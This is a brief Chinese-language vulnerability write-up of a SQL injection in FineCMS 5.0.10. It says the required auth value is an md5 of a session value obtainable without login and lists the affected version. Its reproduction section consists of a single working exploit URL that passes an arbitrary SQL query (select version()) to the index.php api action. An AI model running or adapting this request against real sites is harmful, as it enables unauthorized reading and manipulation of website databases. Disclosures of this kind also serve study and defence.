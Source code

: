 Finecms 5.0.10 sql注入漏洞
==========================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

    http://0-sec.org/index.php?c=api&m=目标站点的值&param=action=sql%20sql=%27select%20version();%27

![](./resource/Finecms5.0.10sql注入漏洞/media/rId24.png)
